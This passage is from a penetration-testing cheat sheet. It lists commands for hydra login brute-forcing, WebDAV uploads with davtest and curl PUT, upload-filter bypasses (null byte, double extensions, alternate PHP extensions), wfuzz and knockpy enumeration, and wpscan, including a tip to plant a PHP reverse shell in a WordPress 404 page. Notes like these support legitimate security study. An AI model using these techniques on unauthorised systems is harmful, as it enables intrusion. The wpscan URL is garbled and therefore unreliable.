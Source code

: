     #bruteforce
    hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>
    ```

- file upload

    ```bash

    #if NMAP show something like: Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND
    #we want to check if we can upload files
    davtest -url http://IP
    #if we see succedd we can use curl to upload:
    curl -X PUT http://10.10.10.15/df.txt -d @test.txt
    #and execute it:
    **curl http://10.10.10.15/df.txt**

    Blacklisting bypass
            bypassed by uploading an unpopular php extensions. such as: pht, phpt, phtml, php3, php4, php5, php6 
        Whitelisting bypass
            passed by uploading a file with some type of tricks, Like adding a null byte injection like ( shell.php%00.gif ). Or by using double extensions for the uploaded file like ( shell.jpg.php)
    ```

- Wfuzz - Subdomain brute forcer, replaces a part of the url like username with wordlist

    ```bash
    wfuzz -c -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?FUZZ=test

    wfuzz -c --hw 114 -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?page=FUZZ

    wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt "$ip:60080/?page=mailer&mail=FUZZ"

    wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 $ip/FUZZ

    wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 $ip/FUZZ
    ```

- [Knockpy](https://github.com/guelfoweb/knock) - enumerate subdomains on a target domain through a wordlist

    ```bash
    knockpy domain.com
    ```

- wpscan - if wordpress found

    ```bash
    wpscan --url [http://:80$target](http://:80$target) --enumerate u,t,p | tee $target-wpscan-enum
    #if we can enter wordpres, we can change the 404 page to php reverse shell code and gain access
    ```

- joomscan - if joomla found

    ```powershell

    cd ~/tools/joomscan
    perl joomscan.pl -u http://10.10.10.150/administrator/
    ```
